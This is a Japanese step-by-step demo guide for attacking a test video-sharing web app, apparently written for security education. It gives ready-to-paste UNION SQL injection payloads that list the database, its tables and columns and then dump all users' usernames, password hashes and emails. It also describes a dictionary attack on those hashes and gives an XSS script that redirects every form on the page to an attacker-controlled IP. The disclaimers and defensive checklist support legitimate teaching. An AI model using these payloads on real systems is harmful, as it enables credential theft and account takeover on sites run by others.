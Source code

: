 # Webサーバー攻撃デモ手順書

## 概要
本手順書は、SQLインジェクションとXSS攻撃のデモンストレーション用です。
**注意: この手順書は教育目的のみに使用し、実際のシステムへの不正アクセスには使用しないでください。**

## 1. SQLインジェクション攻撃デモ

### 1.1 データベース名の取得
動画検索フィールドまたはコメント投稿欄に以下のペイロードを入力：

```sql
' AND 1=2 UNION SELECT 1, 2, DATABASE(), 'dummy_description', 'dummy_filepath.mp4', 5, '2025-01-01 00:00:00' --'
```

**期待される結果**: データベース名（KouTube）が表示される

### 1.2 テーブル名の取得
次に以下のペイロードを使用してテーブル名を取得：

```sql
' AND 1=2 UNION SELECT 1, 2, table_name, 'dummy_description', 'dummy_filepath.mp4', 5, '2025-01-01 00:00:00' FROM information_schema.tables WHERE table_schema = 'KouTube' --'
```

**期待される結果**: データベース内のテーブル名一覧が表示される

### 1.3 usersテーブルのカラム構造取得
usersテーブルのカラム名を取得：

```sql
' AND 1=2 UNION SELECT 1, 2, GROUP_CONCAT(column_name), 'dummy_description', 'dummy_filepath.mp4', 5, '2025-01-01 00:00:00' FROM information_schema.columns WHERE table_schema = 'KouTube' AND table_name = 'users' --'
```

**期待される結果**: usersテーブルのカラム名（id, username, password, email等）が表示される

### 1.4 機密情報の取得
ユーザー情報（ユーザー名、パスワード、メールアドレス）を取得：

```sql
' AND 1=2 UNION SELECT id, id, CONCAT_WS('\n', username, password, email), '', '', 0, NOW() FROM users ORDER BY id ASC --'
```

**期待される結果**: 全ユーザーの機密情報が表示される

### 1.5 辞書攻撃によるパスワード解読
1.4で取得したハッシュ化されたパスワードに対して辞書攻撃を実行：

1. **攻撃準備**:
   - 辞書ファイル（a.txt）を用意
   - attacks_jisyo.pyスクリプトを使用

2. **攻撃実行**:
   ```bash
   python3 attacks_jisyo.py
   ```

3. **スクリプトの動作**:
   - 取得したsalt値（例：`$6$O/zgIwlwUdB90Lqq`）を使用
   - 辞書ファイルから候補パスワードを順次試行
   - ハッシュ値が一致したパスワードを特定

**期待される結果**: 平文パスワードが解読され、実際のユーザーアカウントへの不正アクセスが可能になる

## 2. XSS攻撃デモ

### 2.1 攻撃の準備
1. 攻撃者用のWebページ（you.html）を用意
2. 攻撃者のIPアドレスを確認（例：192.168.25.128）

### 2.2 XSSペイロードの投稿
動画のコメント欄に以下のJavaScriptコードを投稿：

```javascript
<script>document.onkeypress = function(e) {var f=document.forms;var i=f.length-1;do{f[i].action="http://192.168.25.128/project/projitu_1/static/you.html";f[i].onsubmit=null;}while(--i);}</script>
```

### 2.3 攻撃の実行
1. 第三者ユーザーが該当の動画ページにアクセス
2. 第三者ユーザーがコメントを投稿しようとする
3. キーを押すと、フォームのaction属性が攻撃者のサイトに変更される
4. コメント投稿時に攻撃者のサイト（you.html）にリダイレクトされる

## 3. デモ実行時の注意事項

### セキュリティ対策の確認
- 入力値のサニタイゼーション
- SQLクエリのプリペアードステートメント使用
- CSRFトークンの実装
- Content Security Policy (CSP)の設定

### デモ環境の要件
- ローカル環境またはテスト専用環境での実行
- 攻撃対象システムの所有者の許可
- ネットワーク分離された環境での実施

---
**免責事項**: この手順書は教育目的のみに作成されています。実際のシステムに対する不正アクセスや攻撃行為は法的に禁止されており、発見された場合は法的措置の対象となる可能性があります。